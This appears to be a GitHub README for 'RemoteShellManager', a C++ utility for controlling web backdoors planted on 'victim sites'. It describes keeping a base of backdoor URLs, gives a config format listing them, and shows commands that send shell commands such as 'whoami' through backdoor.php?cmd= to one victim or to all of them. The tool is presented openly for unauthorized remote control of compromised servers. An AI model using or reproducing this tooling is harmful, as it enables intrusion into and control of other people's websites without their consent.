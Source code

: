 # RemoteShellManager
RemoteShellManager is utility to control your backdoors on victim sites.

# Basement
Coded on C++ with curl. Cross-platform project.

# How it is works?
This utility keep base with all your **web-backdoors** on **your disk**.

When you want to send request to all victims or selected victim you write id of victim.

Then you write your command. After all RemoteShellManager send request like this: ```"http://url.here/backdoor.php?cmd=whoami"```.

For this example command is "whoami". Answer(s) of request(s) you'll see.

**Utility can send only GET requests!**

# Config file
For add/remove use relevant commands.

Config file structure looks like:
```
1    http://url1.here/backdoor.php?cmd=
2    http://url2.here/backdoor.php?cmd=
3    http://url3.here/backdoor.php?cmd=
```
First column is ID. Second column is victim site.

Name of config file is backdoor_base.conf


# Commands and their templates.
```
help - Show message with commands
exit - Exit
clear - Clear screen. Works only on linux, because it using system("clear")
add <url here with backdoor param> - Add record to base. ID will be assigned automaticlly
remove <id> - Remove backdoor with <id> from base
show - Show all records from base
sendto <id> <command> - Send command to **<id>** victim.
send <command> - Send command to **all** victims.

```

